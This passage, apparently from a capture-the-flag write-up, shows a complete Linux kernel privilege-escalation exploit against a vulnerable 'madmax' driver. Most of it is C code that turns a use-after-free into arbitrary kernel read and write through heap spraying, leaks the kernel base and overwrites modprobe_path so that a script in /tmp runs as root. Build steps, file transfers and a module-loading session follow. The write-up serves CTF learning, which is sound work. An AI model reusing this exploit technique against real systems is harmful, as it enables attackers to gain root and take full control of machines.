        printf("[WRITE] Wrote 0x%lx to slot[%lu]->pointer\n", data, idx);
    } else {
        printf("[ERROR] Failed to write to slot[%lu]->pointer: ret=%d\n", idx, ret);
    }
    return ret;
}

void arbitrary_read(uint64_t address, uint64_t *result) {
    alloc_object(current_slot);
    free_object(current_slot);
    struct payload_data payload;
    memcpy(&payload.data, &address, 8);
    alloc_payload(current_slot, &payload);
    read_pointer(current_slot, result);
    current_slot += 1;
}

void arbitrary_write(uint64_t address, uint64_t data) {
    alloc_object(current_slot);
    free_object(current_slot);
    struct payload_data payload;
    memcpy(&payload.data, &address, 8);
    alloc_payload(current_slot, &payload);
    write_pointer(current_slot, data);
    current_slot += 1;
}

void pin_to_cpu() {
    cpu_set_t cpu_set;
    CPU_ZERO(&cpu_set);
    CPU_SET(0, &cpu_set);
    sched_setaffinity(0, sizeof(cpu_set), &cpu_set);
    printf("[INFO] Process pinned to CPU 0\n");
}

void spray_creds() {
    printf("[INFO] Spraying credentials cache...\n");
    for (int i = 0; i < 800; i++) {
        pid_t pid = fork();
        if (pid == 0) {
            pause();
        }
    }
    printf("[SUCCESS] Created 800 processes for cache spraying\n");
}

int main(void) {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    printf("[INFO] Opening device /proc/madmax...\n");
    device_fd = open("/proc/madmax", O_RDWR);
    if (device_fd < 0) {
        perror("[FATAL] Failed to open /proc/madmax");
        exit(1);
    }
    printf("[SUCCESS] Device opened (fd=%d)\n\n", device_fd);

    pin_to_cpu();
    spray_creds();

    printf("[INFO] Filling kmalloc-128 cache...\n");
    for (int i = 0; i < 600; i++) {
        spray_fds[i] = open("/proc/self/stat", O_RDONLY);
        if (spray_fds[i] < 0) {
            perror("[WARNING] open /proc/self/stat");
        }
    }

    for (int i = 0; i < 2; i++) {
        alloc_object(i);
    }
    printf("[INFO] Allocated 2 primary objects\n");

    for (int i = 0; i < 2; i++) {
        free_object(i);
    }
    printf("[INFO] Freed 2 primary objects for UAF\n");

    struct {
        long mtype;
        char mtext[0x40 - sizeof(long)];
    } message;

    int spray_counter = 0;
    printf("[INFO] Alternating msg_msg and seq_operations spraying...\n");
    for (int round = 0; round < 3; round++) {
        msg_queues[round] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
        if (msg_queues[round] < 0) {
            perror("[WARNING] msgget");
            continue;
        }
        
        for (int i = 0; i < 30; i++) {
            message.mtype = 1;
            memset(message.mtext, 0xAA, sizeof(message.mtext));
            if (msgsnd(msg_queues[round], &message, sizeof(message.mtext), IPC_NOWAIT) < 0) {
                perror("[WARNING] msgsnd");
            }
            
            int idx = 100 + spray_counter++;
            spray_fds[idx] = open("/proc/self/stat", O_RDONLY);
            if (spray_fds[idx] < 0) {
                perror("[WARNING] open /proc/self/stat");
            }
        }
    }
    printf("[SUCCESS] Sprayed ~90 msg_msg and ~90 seq_operations objects\n");

    uint64_t leaked_ptrs[2];
    for (int i = 0; i < 2; i++) {
        read_pointer(i, &leaked_ptrs[i]);
    }

    uint64_t kernel_text_addr;
    current_slot = 2;
    arbitrary_read(leaked_ptrs[1] - 0x80, &kernel_text_addr);
    printf("[LEAK] Kernel text address: %#lx\n", kernel_text_addr);

    uint64_t kernel_base = kernel_text_addr - 0x267df0;
    printf("[LEAK] Kernel base address: %#lx\n", kernel_base);

    uint64_t modprobe_path_addr = kernel_base + 0x1b90ea0;
    printf("[TARGET] modprobe_path address: %#lx\n", modprobe_path_addr);

    uint64_t new_modprobe_value = 0x612f706d742f;  // "/tmp/a" in little endian
    arbitrary_write(modprobe_path_addr, new_modprobe_value);
    printf("[EXPLOIT] Overwritten modprobe_path\n");

    system("echo '#!/bin/sh' > /tmp/a");
    system("echo 'touch /root/pwned' >> /tmp/a");
    system("chmod 777 /tmp/a");
    printf("[INFO] Created payload script at /tmp/a\n");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/fake");
    system("chmod +x /tmp/fake");
    printf("[INFO] Created fake executable at /tmp/fake\n");

    printf("[TRIGGER] Executing fake binary to trigger modprobe_path...\n");
    system("/tmp/fake 2>/dev/null");

    sleep(1);
    printf("[VERIFICATION] Checking if /root/pwned exists...\n");

    close(device_fd);
    return 0;
}
```

we build it 

```bash
aarch64-linux-gnu-gcc -static -o exploit exploit.cc
```

we transfer our driver to the machine

```bash
scp -P 10021 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null madmax.ko root@127.0.0.1:/root
Warning: Permanently added '[127.0.0.1]:10021' (ED25519) to the list of known hosts.
root@127.0.0.1's password: 
madmax.ko                                                              100%  267KB   3.5MB/s   00:00  
```

we then run the driver

```bash
Welcome to Wasteland
wasteland login: root
Password: 
# ls
madmax.ko
# insmod madmax.ko 
[   19.707488] madmax: loading out-of-tree module taints kernel.
[   19.718220] MAD MAX: FURY KERNEL LOADED
# 
```

we then move out exploit 

```bash
scp -P 10021 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null exploit madmax@127.0.0.1:/home/madmax/
Warning: Permanently added '[127.0.0.1]:10021' (ED25519) to the list of known hosts.
madmax@127.0.0.1's password: 
exploit                                                                100%  867KB   3.8MB/s   00:00 
```

And run it boom our file is written to root.




Hard ??? you were not alone ... even Furiosa saw dust


Until next time, keep running… preferably toward more flags and fewer debugging nightmares!

